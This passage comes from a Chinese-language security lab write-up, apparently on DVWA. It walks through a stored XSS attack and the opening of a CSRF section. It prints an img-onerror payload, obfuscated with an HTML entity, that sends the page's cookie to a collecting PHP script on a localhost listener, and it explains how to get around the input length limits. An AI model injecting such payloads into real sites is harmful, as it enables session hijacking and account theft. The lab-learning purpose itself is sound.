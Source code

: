 ![image-20211108204611923](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959476.png)

成功弹窗：

![image-20211108204514458](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959822.png)



##### 2、cookie

滤过方式和XSS（Reflected）一样，所以先尝试一样的payload：

```html
<img src=1 onerror='(new Image()).src="http://127.0.0.1:8080/cookie.php?cookie="+documen&#116.cookie'>
```

因为name的输入框限定大小为10，可以通过F12选取元素修改maxlength为100，方便注入：

![image-20211109204842418](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959891.png)

失败了，由于数据库中guestbook表的name字段长度被限定为100字符，这里的长度太长了：

![image-20211109205043900](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959204.png)

把cookie.php文件名缩短，改为a.php，为了便于和XSS（Reflected）获得的cookie区分，把代码中的cookie.txt也改为a.txt。

再次尝试注入：

```html
<img src=1 onerror='(new Image()).src="http://127.0.0.1:8080/a.php?cookie="+documen&#116.cookie'>
```

成功：

![image-20211109205303627](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959904.png)

![image-20211109205326842](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959900.png)

![image-20211109205413204](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959792.png)



------

### 三、CSRF

#### （1）Low

查看源码：

![image-20211108205119415](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959082.png)

GET方式得到三个参数，`Change`、`password_new`、`password_conf`。比较`password_new`和`password_conf`，如果相同则更新数据库，没有任何防CSRF的措施。

用burp suite抓包也可以看见三个参数：
